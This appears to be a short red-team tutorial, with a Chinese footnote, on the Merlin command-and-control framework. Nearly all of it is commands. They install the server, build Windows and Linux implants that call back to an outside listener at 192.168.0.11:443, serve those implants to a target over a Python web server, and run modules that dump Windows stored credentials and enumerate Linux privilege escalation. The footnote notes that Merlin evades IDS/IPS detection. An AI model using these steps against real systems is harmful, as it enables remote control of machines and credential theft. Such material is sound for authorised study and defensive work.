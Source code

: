 ## Command and Control Guide to Merlin

### Introduction [^1]

### Installation

```bash
apt install golang
mkdir /opt/merlin;cd /opt/merlin
wget //github.com/Ne0nd0g/merlin/releases/download/v0.1.4/merlinServer-Linux-x64-v0.1.4.7z
7z x merlinServer-Linux-x64-v0.1.4.7z
# check if the server is running
./merlinServer-Linux-x64 
# setup GOPATH environment variable
echo "export GOPATH=$HOME/go" >> .bashrc
source .bashrc
go get github.com/Ne0nD0g/merlin
cd go/src/github.com/Ne0nd0g/merlin/cmd/merlinserver
go run main.go
# setup SSL certifacat
cp -r /opt/merlin/data /root/go/src/github.com/Ne0nd0g/merlin/cmd/merlinserver/
go run main.go -h
```

### Windows exploitation

```bash
# make Merlin agent for Windows
GOOS=windows GOARCH=amd64 go build -ldlags "-X main.url=//192.168.0.11:443" -o shell.exe main.go
# share the shell with the target using python server
python -m SimpleHTTPServer 80
# create a listener for the shell to revert
go run main.go -i 192.168.0.11
sessions
interact <sessions name>
info
back
use module * # various post exploitation modules
```

### Windows post exploitation

```bash
# dump the credentials of windows
use module windows/x64/powershell/credentials/dumpCredStore
info
set agent <agent name>
run
```

### Linux exploitation

```bash
Export GOOS=linux;export GOARCH=amd64; go build -ldflags "-s -w -X main.url=//192.168.0.11:443" -o shell.elf main.go
go run main.go -I 192.168.0.11
```

### Linux post exploitation

```bash
use module linux/x64/bash/priesc/LinEnum
set agent <agent name>
run
```

[原文](https://www.hackingarticles.in/command-and-control-guide-to-merlin/)

---

[^1]: Merlin是一个用Go语言编写的优秀的跨平台命令和控制工具。它由两个元素组成，即服务器和代理。它适用于HTTP / 2协议。关于Merlin的最好的事情是它被编译为可以在任何平台上运行，甚至可以从源代码构建它。通常，代理程序被放在Windows上并且正在Linux上进行监听，但是由于使用Go语言编写，Merlin允许我们将代理放在我们遇到的任何平台/机器上，我们也可以在任何平台上收听它。在涉及红色团队时，这比其他人更成功，因为它使IDS / IPS难以识别它。Merlin服务器将在代理可以调用它的文件夹中运行。默认情况下，服务器在127.0.0.1:443上配置，但您可以将其更改为您自己的IP。如前所述，merlin代理可以是交叉复杂的，可以在任何平台上运行。使用目标的路径变量执行任何二进制文件。